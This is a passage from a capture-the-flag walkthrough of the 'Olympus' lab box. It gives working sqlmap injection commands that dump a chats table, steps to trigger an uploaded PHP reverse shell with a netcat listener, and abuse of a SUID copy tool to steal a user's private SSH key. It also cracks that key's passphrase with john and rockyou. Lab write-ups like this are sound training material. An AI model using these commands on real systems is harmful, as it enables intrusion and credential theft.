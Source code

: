 Our domain is chat.olympus.thm, so let’s look at table 'chats'.\
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus --tables -T chats --columns

![image](https://user-images.githubusercontent.com/93153300/198897798-923a38ee-5d74-4599-a566-2cc98cfea6df.png)
 
Column 'file' is interesting, sounds like it should show us the files uploaded.\
sqlmap -u "http://olympus.thm/~webmaster/search.php" --batch --data "search=blob&submit=" -p search --dbs -D olympus --tables -T chats --columns -C file –dump

![image](https://user-images.githubusercontent.com/93153300/198897805-83b7621f-af1e-4609-a6e7-73ba56fcca00.png)
 
If this b3dac2401ad697c22fbe4050ff14b19c.php file is our pentestmonkey reverse shell, then putting that into /uploads/ should get us a reverse shell on a netcat listener.\
Open netcat listener: nc -lvnp 443 (I’ll use pwncat-cs -lp 443, as it gives a better shell than netcat)\
Copy b3dac2401ad697c22fbe4050ff14b19c.php and paste it into the directory we found earlier of /uploads.  Should look like this: http://chat.olympus.thm/uploads/b3dac2401ad697c22fbe4050ff14b19c.php

It worked, we have a shell as www-data\
Can get the user flag at /home/zeus/user.flag.
___________________________________________________
**Lateral Movement:**\
Check for suid:   find / -perm /4000 2>/dev/null\
Found an interesting suid file owned by user zeus: 

![image](https://user-images.githubusercontent.com/93153300/198897816-704fd3b4-8b15-49ea-a23d-4b8a7fe96296.png)

Running /usr/bin/cputils, it first asks to “enter the name of source file”, then it asks to “enter the name of target file”.  If done right, after finished it will say file copied successfully.  Seems like cputils copies files.  Looking at /home/zeus we see a directory .ssh, however we don’t have permissions to open that directory as www-data.  Let’s try to use cputils to copy zeus’s private ssh key:

![image](https://user-images.githubusercontent.com/93153300/198897821-6f306006-e071-4335-9ac6-5831369498b1.png)


We now have zeus’s private ssh key.  Use that to ssh in as zeus. First, download the private ssh key.  Then give the private key proper permissions so it doesn’t error: chmod 600 id_rsatarget.\
Finally use the key to ssh in as zeus:\
ssh -i id_rsatarget zeus@10.10.105.247

It asks for a passphrase, so we can’t log in yet, we need to figure out the passphrase.  Use john to crack the passphrase.  First, convert the id_rsatarget key into a hash john can work with.  Use command: ssh2john id_rsatarget > john.txt \
Next crack the hash to get the passphrase with command: john john.txt –wordlist=/usr/share/wordlists/rockyou.txt\
It worked, the passphrase is snowflake

Back to logging in with ssh private key:\
ssh -i id_rsatarget zeus@10.10.105.247 → when prompts for passphrase, enter snowflake\
We’re in, we have shell as zeus.
______________________________________________________
**Privilege Escalation**:\
/var/www  directory shows 3 directories: olympus.thm, chat.olympus.thm, and html.  We have already been on 2 of them: olympus.thm and chat.olympus.thm.  Let’s check out the html directory:
